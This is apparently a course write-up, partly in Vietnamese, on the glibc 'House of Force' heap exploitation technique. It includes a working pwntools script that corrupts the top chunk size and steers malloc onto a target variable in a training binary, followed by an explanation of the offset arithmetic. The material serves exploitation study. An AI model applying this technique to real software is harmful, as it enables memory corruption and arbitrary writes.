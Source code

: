# Scenery

- Sau khi ép được `malloc` trả về arbitrary pointer, ta có thể thoải mái tương tác với ptr đó (`read`, `write`...)
- Từ đó nâng lên leak, overwrite, rce...

# POC

This script come along with binary file in course.

Our goal is overwrite the `target` variable in binary. There is an obivious overflow when read data, we abuse this to modify next chunk size, in this example is `top chunk`, to trigger the `house of force`.

```
from pwn import *

exe = ELF("./house_of_force")
libc = ELF(exe.runpath + b"/libc.so.6")
context.binary = exe

debug = lambda : gdb.attach(p, gdbscript = script)

def malloc(size, data):
	p.sendafter(b"> ", b"1")
	p.sendafter(b"size: ", f"{size}".encode())
	if(data != b""):
		p.sendafter(b"data: ", data)

'''
read_num in main
'''

script = '''
b *0x000000000040093E
'''

p = process("./house_of_force")

# leak libc and heap
p.recvuntil(b"puts() @ ")
libc_base = int(p.recvline(), 16) - libc.symbols['puts']
p.recvuntil(b"heap @ ")
top_chunk = int(p.recvline(), 16) + 0x20
target = 0x602010

#debug()
# overwrite top chunk with -1
malloc(0x18, b"A" * 0x18 + p64(0xffffffffffffffff))

# malloc large size to fill the gap
## VA address works like a circle
bridge = (((1 << 64) + target) - top_chunk - 8) - 0x10
## strtoul work with long int (signed)
## can change this to bridge if its unsigned
## since the `nbytes` is large -> read() wont works normally
malloc(bridge - (1 << 64), b"")

# malloc to target
malloc(0x18, b"WINNNNNNNN")
p.sendafter(b"> ", b"2")

p.interactive()
```

# Idea

After the first `malloc` we overwrite top chunk with large size (`-1`).

![](attachments/image00.png)

Since we already know the address of `top chunk` (via heap leak) and `target` (no PIE), we need to fill the gap of them first. Although `target` is before `top chunk` in memory, the bridge size can be calculated. Because the virtual address only 8 bytes, it can overflow (like a circle).

```
bridge = (((1 << 64) + target) - top_chunk - 8) - 0x10
```

We subtract `0x10` so after `malloc`, the `top chunk` will right before the target.

```
>>> hex(0x10000000000000000 + 0x602010 - 0x201f4020 - 8 - 0x10)
'0xffffffffe040dfd8'
```

![](attachments/image01.png)

After the padding `malloc`:

![](attachments/image02.png)

We can see the top chunk is right before the target as expected, , then the next `malloc` will return a `target` pointer, we can modify it.

![](attachments/image03.png)
